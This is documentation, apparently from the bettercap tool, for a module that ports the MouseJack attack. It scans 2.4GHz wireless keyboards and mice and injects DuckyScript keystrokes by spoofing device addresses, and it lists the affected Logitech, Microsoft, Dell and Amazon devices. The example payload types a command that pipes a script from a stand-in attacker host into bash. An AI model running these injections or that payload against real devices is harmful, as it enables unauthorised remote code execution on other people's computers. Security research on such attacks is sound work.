 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

- CrazyRadio PA USB dongle
- SparkFun nRF24LU1+ breakout board
- Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

Once flashed with the proper firmware and connected to your computer, `dmesg` should report the device as:

```sh
usb 3-1.3: new full-speed USB device number 8 using xhci_hcd
usb 3-1.3: New USB device found, idVendor=1915, idProduct=0102
usb 3-1.3: New USB device strings: Mfr=1, Product=2, SerialNumber=0
usb 3-1.3: Product: Research Firmware
usb 3-1.3: Manufacturer: RFStorm
```

The attack is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

- Microsoft Wireless Keyboard 800
- Microsoft Wireless Mouse 1000
- Microsoft Wireless Mobile Mouse 3500
- Microsoft All-In-One Media Keyboard
- Microsoft Sculpt Ergonomic Mouse
- Logitech Wireless Touch Keyboard K400r
- Logitech Marathon M705 Mouse
- Logitech Wave M510 Mouse
- Logitech Wireless Gaming Mouse G700s
- Logitech Wireless M325 Mouse
- Logitech K750 Wireless Keyboard
- Logitech K320 Wireless Keyboard
- Dell KM636 Wireless Mouse and Keyboard
- AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.clear`

Clear all devices collected by the HID discovery module.

#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.

#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.

#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

{{% notice note %}}
The command `hid.inject` does not require the HID device to be visible via the `hid.show` command. If you know the address of the dongle already, you can simply set the `hid.force.type` parameter to one among `logitech` (the default value), `amazon` or `microsoft` and run the injection _"blindly"_.
{{% /notice %}}

### Parameters

| Parameter          | Default    | Description                                                                                                                                                                                                                    |
| ------------------ | ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hid.lna`          | `true`     | If true, enable the LNA power amplifier for CrazyRadio devices.                                                                                                                                                                |
| `hid.hop.period`   | `100`      | Time in milliseconds to stay on each channel before hopping to the next one.                                                                                                                                                   |
| `hid.ping.period`  | `100`      | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode.                                                                                                                                     |
| `hid.sniff.period` | `500`      | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type.                                                                                                        |
| `hid.force.type`   | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.show.filter`  |            | Defines a regular expression filter for `hid.show`.                                                                                                                                                                            |
| `hid.show.sort`    | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`.                                                                                                                                                  |
| `hid.show.limit`   | `0`        | Defines limit for `hid.show`.                                                                                                                                                                                                  |
| `hid.ttl`          | `1200`     | Seconds of inactivity to consider a device as not in range.                                                                                                                                                                    |

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```sh
> set hid.force.type logitech
> hid.recon on
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

    GUI SPACE
    DELAY 200
    STRING Terminal
    ENTER
    DELAY 500
    STRING curl -L http://www.evilsite.com/commands.sh | bash
    ENTER

Hacking Logitech devices:

<iframe width="560" height="315" src="https://www.youtube.com/embed/TdPRYWkYarM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
